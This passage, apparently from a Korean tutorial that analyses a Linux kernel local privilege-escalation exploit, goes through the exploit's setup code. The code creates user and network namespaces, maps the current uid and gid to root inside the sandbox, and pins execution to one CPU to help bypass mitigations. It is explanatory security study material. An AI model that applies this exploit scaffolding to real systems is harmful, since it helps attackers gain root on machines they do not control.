 따라서 공격자가 해당 권한을 가지기 위해 linux kernel에서 지원하는 namespace와 cgroup 기능을 이용해서 별도의 container를 만든 후, 현재 사용자에게 해당 container의 관리자 권한을 부여하는 것이다.

> linux container 기술에 대한 자세한 사항은 아래를 참고하도록 한다.

> [Docker(container)의 작동 원리: namespaces and cgroups]: https://tech.ssut.me/what-even-is-a-container/



코드를 좀 더 자세히 분석해 보자. 먼저 아래와 같이 현재 사용자의 uid, gid를 구해온다.

```c
int real_uid = getuid();
int real_gid = getgid();
```

<br>
아래 코드에서 unshare()는 linux namespace를 쉽게 다룰 수 있도록 제공하는 함수이다. CLONE_NEWUSER 라는 변수를 넘겨줄 경우 새로운  user namespace를 만든다. 즉 이 함수가 실행된 순간부터 uid와 gid가 격리되는 것이다.<br>
이후 CLONE_NEWNET 변수를 이용하여 사용자의 네트워크(nic, address, route, fw 등)를 격리시킨다.

```c
if (unshare(CLONE_NEWUSER) != 0) {
    perror("[-] unshare(CLONE_NEWUSER)");
    exit(EXIT_FAILURE);
}

if (unshare(CLONE_NEWNET) != 0) {
    perror("[-] unshare(CLONE_NEWUSER)");
    exit(EXIT_FAILURE);
}
```

<br>
앞에서 구한 사용자의 uid, gid를 이용하여 격리된 sandbox의 관리자로 변경한다. 이제 sandbox에서 id를 입력하면 uid, gid 모두 0으로 표시되게 된다.

```c
if (!write_file("/proc/self/setgroups", "deny")) {
    perror("[-] write_file(/proc/self/set_groups)");
    exit(EXIT_FAILURE);
}
if (!write_file("/proc/self/uid_map", "0 %d 1\n", real_uid)){
    perror("[-] write_file(/proc/self/uid_map)");
    exit(EXIT_FAILURE);
}
if (!write_file("/proc/self/gid_map", "0 %d 1\n", real_gid)) {
    perror("[-] write_file(/proc/self/gid_map)");
    exit(EXIT_FAILURE);
}
```

<br>
최근의 컴퓨터들은 여러개의 cpu를 가지고 있기 때문에 exploit이 현재 cpu에서 실행되다가 다른 cpu에서 실행이 될 수도 있다. 이건 현대 cpu들의 Mitigation을 우회하는 것에 문제가 생길 수도 있는데 자세한 것은 뒤에서 설명하기로 한다. 어쨌든 아래의 코드는 이 exploit이 현재 cpu에서만 실행되도록 보장하기 위한 코드이다.

```c
cpu_set_t my_set;
CPU_ZERO(&my_set);
CPU_SET(0, &my_set);
if (sched_setaffinity(0, sizeof(my_set), &my_set) != 0) {
    perror("[-] sched_setaffinity()");
    exit(EXIT_FAILURE);
}
```
